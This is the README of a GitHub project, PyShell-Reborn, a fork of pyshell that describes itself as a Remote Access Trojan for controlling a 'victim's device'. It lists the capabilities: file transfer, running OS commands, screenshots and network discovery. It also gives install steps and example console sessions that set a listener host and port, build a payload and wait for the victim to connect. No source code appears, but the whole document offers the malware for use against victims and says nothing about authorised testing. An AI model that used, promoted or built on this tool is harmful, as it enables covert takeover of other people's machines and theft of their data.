

# PyShell-Reborn



---

**NOTE**: PyShell-Reborn is a fork of [pyshell](https://github.com/knassar702/pyshell) tool by **knassar702**. Since pyshell is no longer maintained, I have taken up its development and maintainance indivisually. I extend my thanks to the original author, Khaled Nasser, for their contributions.


**PyShell-Reborn** is a refactored Python3 implementation of the original [pyshell](https://github.com/knassar702/pyshell) tool by **Khaled Nasser**. It is a **Remote Access Trojan (RAT)** that allows for comprehensive control over a victim's device. It allows users to create and deploy payloads to remote systems, enabling a command and control interface. 


## Features 

- Upload and download files.
- Execute OS commands.
- Get victim's address.
- Open files on the victim's device.
- Open URLs in the victim's browser.
- Print messages in the victim's terminal.
- See active devices on the victim's network.
- Take screenshots from the victim's device.


## Installation (Linux)

1. Clone the repository locally: 

``` shell
git clone https://github.com/arnavpadwal/pyshell-reborn.git
cd pyshell-reborn
```

2. Install Dependencies:

``` shell
pip install -r requirements.txt
```

3. Running the script:

``` shell
./Pyshell_reborn
```


## Usage Guide

PyShell-Reborn supports various commands to configure and manage payloads and connections. Below is a list of the primary commands and their usage:

#### **General Commands**

- `help` - Displays the list of available commands.

- `banner` - Clears the screen and displays the tool's logo.

- `exit` - Exits the tool.

#### **Configuration Commands**
- `set host <IP>` - Sets the IP address for the payload.

- `set port <PORT>` - Sets the port number for the payload.

- `set name <SESSION_NAME>` - Sets the session name for the payload.

- `show options` - Displays the current configuration options (host, port, and name).

#### **Payload Commands**

`make` - Builds the payload with the specified host, port, and session name. The payload is saved in the *payloads* directory.

#### **Exploitation Commands**

`run` - Starts the listener to wait for the victim to connect.

`exploit` - An alias for the `run` command.

`start` - Another alias for the `run` command.


## Examples

#### **Setting Configuration Options**

To configure the host and port for the payload:

```
[👾] Pyshell-Reborn :~ set host 192.168.1.10
Host => 192.168.1.10

[👾] Pyshell-Reborn :~ set port 4444
Port => 4444
```

To set a session name:

``` 
[👾] Pyshell-Reborn :~ set name mysession
Name => mysession
```

To view the current configuration:

``` 
[👾] Pyshell-Reborn :~ show options

[+] Your Host : 192.168.1.10
[+] Your Port : 4444
[+] Session Name : mysession
```

#### **Creating a Payload**

After configuring the host, port, and name, you can create the payload:

``` 
[👾] Pyshell-Reborn :~ make
[+] Building Payload [+]
[+] Completed [+]
[!] Saved in payloads File
```

#### **Running the Listener**

To start the listener and wait for a victim to connect:

``` 
[👾] Pyshell-Reborn :~ run
[+] Waiting for the victim...
```

#### **Example Session**

1. Set Configuration:
``` shell
set host 192.168.1.10
set port 4444
set name mysession
show options
```
2. Create Payload:
``` shell
make
``` 
3. Run Listener:
```shell
run
```

## Contribution Guide

Any contributions to the development of PyShell-Reborn are most welcome. Whether you want to report issues, request new features, or directly contribute to the codebase, your involvement is highly appreciated. Here's how you can contribute:

### Creating Issues and Feature Requests

- If you encounter any bugs, you can create an issue on the [Issues](https://github.com/arnavpadwal/pyshell-reborn/issues) page.

- Additionally, if have ideas for new features, you can create a feature request on the [Issues](https://github.com/arnavpadwal/pyshell-reborn/issues) page.

- Make sure to add the respective labels.


NOTE: Please provide detailed information to help me understand and resolve the issue or implement features.


### Supporting the Project

If you find PyShell-Reborn useful and would like to support the project's development, consider making a donation. Your support is greatly appreciated and helps me continue improving and maintaining the tool.


## To-Do


## License

This project is licensed under the GPL 3.0 License.

---
